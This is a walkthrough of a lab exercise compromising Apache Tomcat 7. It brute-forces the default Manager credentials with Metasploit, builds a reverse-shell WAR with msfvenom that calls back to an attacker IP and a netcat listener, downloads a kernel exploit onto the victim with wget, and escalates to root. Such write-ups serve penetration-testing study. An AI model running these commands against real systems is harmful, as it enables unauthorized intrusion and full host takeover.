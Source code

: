 # ☁️ Tomcat Reverse Shell via WAR Upload (Port 8081)

> This section explains how I brute-forced Tomcat credentials, uploaded a WAR reverse shell, and gained access to the target server.

---

## 🧪 Lab Details

- **Target IP**: 192.168.182.128  
- **Port**: 8081  
- **Service**: Apache Tomcat 7  
- **Attacker IP**: 192.168.182.129

---

## 🔍 Step 1: Service Discovery

Browser: http://192.168.182.128:8081  
Prompted with a login popup for **Tomcat Manager**.

---

## 🔐 Step 2: Credential Brute-Force

Used Metasploit module:
```bash
use auxiliary/scanner/http/tomcat_mgr_login
set RHOSTS 192.168.182.128
set RPORT 8081
run
```
```bash
tomcat:tomcat
```
📌 Result: Login Successful → Default creds or weak creds were accepted.

---

## ☠️ Step 3: Payload Creation (WAR Shell)

Created WAR reverse shell using `msfvenom`:
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.182.129 LPORT=4444 -f war -o shell.war
```

Started Netcat listener:
```bash
nc -lvnp 4444
```

---

## 🚀 Step 4: WAR Upload & Exploitation

1. Logged into Tomcat Manager Web Interface
2. Uploaded `shell.war`
3. Navigated to deployed path:
```bash
http://192.168.182.128:8081/shell/  (calls the shell)
```

✅ Result: Reverse shell connected back to attacker's Netcat listener

---

## 🧠 Step 5: Shell Access as tomcat7

Once shell was obtained:
```bash
whoami
→ tomcat7
```

---

## 🧗 Step 6: Privilege Escalation

### System Info
```bash
cat /etc/os-release
```
📌 Output:
```
Ubuntu 8.04
Linux version 2.6.24-16-server
```

An outdated kernel that is likely vulnerable to local exploits.

### Exploit Process
```bash
searchsploit linux kernel 2.6.24
```
- Selected appropriate privilege escalation exploit

Transferred and compiled exploit:
```bash
python3 -m http.server 8080   # On attacker machine
wget http://192.168.182.129:8080/exploit.c  # On victim
gcc exploit.c -o exploit
./exploit
```

### Root Access Gained
```bash
whoami
→ root
```

Successfully escalated from tomcat7 to root.

---

## 🔐 Summary

| Element       | Details                        |
|---------------|---------------------------------|
| Service       | Apache Tomcat 7                |
| Exploit       | WAR file upload                |
| Credentials   | Brute-forced via Metasploit    |
| Shell Type    | Reverse shell (Netcat)         |
| Start User    | tomcat7                        |
| Priv. Escal.  | Local kernel exploit (2.6.24)  |
| Final Access  | root                           |


